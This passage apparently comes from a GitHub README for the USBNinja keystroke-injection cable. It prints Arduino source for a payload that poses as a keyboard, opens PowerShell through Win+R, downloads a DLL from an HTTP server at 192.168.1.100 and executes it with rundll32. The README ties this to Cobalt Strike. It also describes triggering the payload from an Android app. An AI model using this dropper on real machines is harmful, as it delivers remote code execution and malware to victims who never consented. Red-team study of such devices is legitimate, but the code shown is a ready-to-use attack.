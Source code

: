 ```c
void payloadB() {
    // Initiate keyboard
    USBninjaOnline();
    NinjaKeyboard.begin();
    NinjaKeyboard.delay(1000);
    // Send HID '0' to compatibility Win7
    NinjaKeyboard.sendKeyStroke(0);
    NinjaKeyboard.delay(1000);
    // WIN + R
    NinjaKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    NinjaKeyboard.delay(100);
    // Start PowerShell
    NinjaKeyboard.print(F("powershell.exe"));
    NinjaKeyboard.delay(100);
    // ENTER
    NinjaKeyboard.sendKeyStroke(KEY_ENTER);
    NinjaKeyboard.delay(500);
    // Download, execute payload and exit powershell
    NinjaKeyboard.println(F("(New-Object System.Net.WebClient).DownloadFile(\"http://192.168.1.100:8081/dns.dll\", \"C:\\Users\\Public\\Documents\\dns.dll\"); rundll32 C:\\Users\\Public\\Documents\\dns.dll,Start; exit"));
    NinjaKeyboard.delay(100);
    // Stop and remove keyboard
    NinjaKeyboard.end();
    USBninjaOffline();
}
```

Full code file can be found [here](https://github.com/4d4c/USBNinjasrc/branch/master/payload_examples/bluetooth_powershell_command/bluetooth_powershell_command.ino) (to save memory we can rewrite both functions to call a generic function with download URL as an argument).

----

### Cobalt Strike payload (Android app)

Payload from [Cobalt Strike payload (remote control)](#cobalt-strike-payload-remote-control) can be re-used. Range of the Android App is the same as of the remote control (tested on Samsung S5).

Download APK file from [here](https://usbninja.com/drivers_tools/USBNinja.apk). Version used in this readme can be found [here](https://github.com/4d4c/USBNinjaraw/branch/master/install_files/USBNinja.apk).

Install APK file on Android phone. If you changed default password for USBNinja cable change it in __password__ menu (top right). After scanning pick the device.

<img src ="https://github.com/4d4c/USBNinjaraw/branch/master/images/device_search.png" />

In here you will be able to execute commands the same way as with the remote control.

<img src ="https://github.com/4d4c/USBNinjaraw/branch/master/images/device_action.png" />

---
